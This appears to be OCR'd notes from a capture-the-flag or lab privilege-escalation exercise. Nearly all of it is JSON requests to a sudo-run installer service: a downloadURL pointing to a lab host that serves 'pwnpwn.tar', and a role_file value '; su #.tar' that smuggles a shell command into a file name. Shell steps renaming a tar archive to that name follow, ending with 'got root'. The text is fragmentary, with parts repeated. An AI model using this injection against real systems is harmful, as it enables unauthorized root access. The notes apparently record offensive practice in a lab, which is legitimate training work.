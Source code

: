 ```bash
"resources":[
           {"name":"miodemi", "downloadURL":"http://10.10.14.45/pwnpwn.tar" }
   ]
}

{ 
"action":"install"
"list" :"http://10.10.14.45"
"auth_code" :"UHI75GHINKOP"
}




{ "run": { "action": "install", "role_file": "; su #.tar" }, "auth_code": "UHI75GHINKOP" } mv a.tar '; su #.tar' tar cvf a.tar bash.txt sudo and got root















{ "resources":[
           {"name":"package1", "downloadURL":"path-to-file1" },
           {"name":"package2", "downloadURL": "path-to-file2"}
   ]
}

{
    "run":{
        "action":"install",
        "auth_code":"UHI75GHINKOP",
        "role_file":"/dev/shm/pwnpwn.tar",
        "dest_dir":"/dev/shm/pwn"
    },
    "auth_code":"UHI75GHINKOP",
    "action":"install",
    "role_file":"/dev/shm/pwnpwn.tar",
    "dest_dir":"/dev/shm/pwn"
}



{
    "run": {
        "action": "install",
        "role_file": "; su #.tar"
    },
    "auth_code": "UHI75GHINKOP"
}

mv a.tar '; su #.tar'
tar cvf a.tar bash.txt 
sudo and got root
```
